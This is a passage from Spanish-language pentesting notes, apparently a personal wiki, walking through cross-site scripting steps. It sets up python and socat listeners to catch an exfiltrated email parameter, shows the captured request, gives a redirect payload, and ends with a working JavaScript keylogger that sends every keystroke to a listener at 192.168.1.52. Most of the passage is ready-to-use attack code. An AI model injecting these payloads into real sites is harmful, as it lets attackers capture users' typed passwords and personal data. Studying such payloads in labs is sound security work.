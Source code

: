 ```bash
python3 -m http.server 80
```

- Al introducir un correo en el navegador tras la ejecución del script, se visualizará el correo capturado en el servidor Python.

Otra alternativa a python es la siguiente [[Socat]] la cual no muestra más información:

```shel
socat TCP-LISTEN:1234,reuseaddr,fork -
```

Resultado:

```shell
GET /?email=mail@mail.com HTTP/1.1
Host: 127.0.0.1:1234
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: http://localhost:8081/
Origin: http://localhost:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=4
```


---

## Paso 3 - Redirección a Otra Web

**Código a inyectar:**

```html
<script>
  window.location.href = "http://google.es";
</script>
```

> **Explicación:**  
> El script redirige al usuario a la página especificada.

---

## Paso 4 - Keylogger

**Código a inyectar:**

```html
<script>
  var k = "";
  document.onkeypress = function(e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://192.168.1.52/" + k;
  };
</script>
```
